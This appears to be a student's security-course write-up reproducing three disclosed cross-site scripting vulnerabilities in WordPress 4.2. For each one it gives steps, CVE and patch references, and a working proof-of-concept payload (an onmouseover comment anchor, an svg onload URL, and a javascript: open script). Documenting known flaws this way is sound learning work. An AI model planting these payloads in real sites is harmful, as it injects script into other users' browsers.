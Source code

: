 # Cyber-Security

Time spent: 8 hours spent in total

Objective: Search, Retrive, process, recreate, and document 3 vulnerability on this version of WordPress

Version of WordPress Tested: 4.2

Vulnerability 1 - Legacy Theme Preview Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<a href='/wp-admin/' title="" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(1)//'>Test</a>
Hover over the posted comment.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.2.3 - Legacy Theme Preview Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.4

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8133
[Link 2] Reference: https://core.trac.wordpress.org/changeset/33549
[Link 3] Reference: https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html
[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
GIF: https://imgur.com/a/uaj7O

Vulnerability 2 - Authenticated Cross-Site Scripting (XSS)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress 3.7-4.4 - Authenticated Cross-Site Scripting (XSS)

[i] Fixed in: 4.2.6

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8358
[Link 2] Reference: https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
[Link 3] Reference: https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
[Link 4] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564
GIF: https://imgur.com/a/oHP7b

Vulnerability 3 - Pupload Same Origin Method Execution (SOME)
Steps to reproduce:

Go to any post.
Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
 open('javascript:alert(1)');
}
</script>
Click on the button.
Alert(1) will pop up.
Type of Attack: XSS

Versions:

[!] Title: WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME)

[i] Fixed in: 4.2.8

Sources:

[Link 1] Reference: https://wpvulndb.com/vulnerabilities/8489
[Link 2] Reference: https://wordpress.org/news/2016/05/wordpress-4-5-2/
[Link 3] Reference: https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8
[Link 4] Reference: https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e
[Link 5] Reference: http://avlidienbrunn.com/wp_some_loader.php
[Link 6] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566
GIF: https://imgur.com/a/7gK3e
